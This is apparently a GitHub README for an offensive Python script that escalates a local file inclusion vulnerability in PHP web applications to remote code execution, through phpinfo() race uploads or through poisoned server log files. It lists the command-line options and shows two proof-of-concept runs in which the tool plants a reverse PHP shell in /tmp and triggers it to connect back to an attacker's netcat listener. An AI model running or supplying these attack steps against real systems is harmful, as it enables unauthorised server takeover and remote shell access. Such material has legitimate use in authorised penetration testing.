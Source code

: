 # LFI to RCE via phpinfo() assistance or via controlled log file 

For more details about exploit via phpinfo(). research from [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

For more details about exploit via controlled log file, writeup grom [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

# Use case
#### About LFI to RCE via phpinfo()
- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 

#### About LFI to RCE via controlled log file
- Found an LFI Vulnerability
- found the web server log file path or try paths from script.

# Usage 

```
usage: lfito_rce.py [-h] [-a ACTION] -l LFI --lhost LHOST --lport LPORT
                         [--payload PTYPE] [-e REQEND] [-v VERBOSE]
                         [-t THREADS] [-i PHPINFO] [-f LOGFILE]

RCE from LFI with PHPINFO assistance or Via controlled log file

optional arguments:
  -h, --help            show this help message and exit
  -a ACTION, --action ACTION
                        Define the attack type - 1 for PHPINFO and - 2 for
                        controlled log. Value 1 by default
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
  -t THREADS, --threads THREADS
                        [For phpinfo action]. Threads number, set to 10 by
                        default
  -i PHPINFO, --phpinfo PHPINFO
                        [For phpinfo action]. Define the url path of the
                        "phpinfo" script. Per ex: "http://host/phpinfo.php"
  -f LOGFILE, --logfile LOGFILE
                        [For controlled log action]. Define the path of the
                        http server log file. By default script will use
                        bruteforce

```


# POC
#### About LFI to RCE via phpinfo() 

```
$ python lfito_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

#### About LFI to RCE via controlled log file

```
$ python lfito_rce.py -a 2 -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI RCE via controlled log
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

  16 /   26
Got it! Reverse php Shell created in /tmp/k0THSi7vdS58.php

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/k0THSi7vdS58.php

Verify your nc listenner 127.0.0.1:9001

```

### Nota 

Sometimes you have to use a hight thread value to increase your chances of success !!
 
#### Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```


